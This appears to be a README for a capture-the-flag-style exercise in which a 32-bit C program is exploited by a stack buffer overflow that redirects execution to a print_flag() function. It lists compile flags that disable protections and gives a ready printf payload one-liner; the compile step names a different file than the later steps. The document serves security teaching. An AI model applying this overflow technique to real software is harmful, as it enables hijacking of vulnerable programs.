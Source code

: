 # Program00 - Basic EIP Control via Buffer Overflow

## Description
This exercise demonstrates controlling program execution by overwriting the return address to redirect to a `print_flag()` function.

## Files
- `vuln00.c`: Vulnerable C program
- `payload.py`: Exploit generator
- `pattern.py`: Offset calculator
- `approach.txt`: Personal notes
- `Description.txt`: Learning objectives

## How to Reproduce

1. Compile the program:
```bash
gcc -m32 -fno-stack-protector -z execstack -no-pie vulnP1.c -o vulnP1
```

2. Find the offset (76 bytes in this case):
```bash
python3 pattern.py
```

3. Generate the payload:
```bash
python3 payload.py
```

4. Execute the exploit:
```bash
./vuln00 < payload_func
```

5. Alternative Execution:
```bash
printf "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xd5\x91\x04\x08" | ./vuln00
```

## Key Learnings
- Finding return address offset
- Converting addresses to little-endian
- Crafting precise payloads
- Redirecting program execution